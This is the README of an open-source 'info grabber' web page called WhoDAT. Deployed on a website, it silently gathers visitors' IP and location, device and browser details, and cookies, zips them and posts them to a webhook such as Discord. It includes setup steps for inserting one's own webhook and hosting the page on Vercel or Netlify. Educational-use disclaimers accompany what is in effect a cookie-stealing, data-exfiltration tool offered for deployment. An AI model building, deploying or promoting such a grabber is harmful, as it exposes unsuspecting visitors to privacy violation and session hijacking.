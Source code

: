 # WhoDAT

This project is a lightweight browser-based information collector that gathers client-side data such as IP details, device specifications, browser metadata, and cookies. It packages the data into a ZIP file and sends it via a webhook.

> ⚠️ **Disclaimer:** This project is intended for **educational** and **ethical** use only. Do **not** deploy or use this script on websites without clear user consent. Violating privacy laws or terms of service can result in legal consequences.

---

## 🚀 Features

- 📡 **IP Information** — Uses `ipinfo.io` to gather public IP, ISP, location, and VPN detection.
- 💻 **Browser & Device Data** — Captures browser name, version, OS, user agent, device type, and screen resolution.
- 🍪 **Cookie Collection** — Retrieves browser cookies (if available).
- 📦 **ZIP Compression** — Organizes and compresses the collected data using `JSZip`.
- 📤 **Webhook Delivery** — Sends the ZIP file to a specified webhook (e.g., Discord).

---

## 📌 Technologies Used

- HTML5  
- JavaScript  
- [JSZip](https://stuk.github.io/jszip/)  
- [ipinfo.io](https://ipinfo.io/)  
- Fetch API

---

## ⚙️ Setup & Usage

### 1. Clone the Repository

```bash
git clone https://github.com/SavJas/WhoDatInfoGrabber.git
```

### 2. Replace the Webhook

Open the HTML file and find this line:
```
fetch("webhook_url", {
```
Replace "webhook_url" with your actual webhook URL (such as a Discord webhook).


### 🚀 Deploy to the Web
You can host this project for free using platforms like Vercel or Netlify.

## ❗ Ethical Use Reminder

#### This tool is intended for:

- ✅ Penetration testing (with proper permission)

- ✅ Educational demonstrations

- ✅ Browser fingerprinting research

**Do not use this tool for malicious purposes or without clear, informed consent from users.**

### 📄 License
This project is open-source under the **MIT License**.
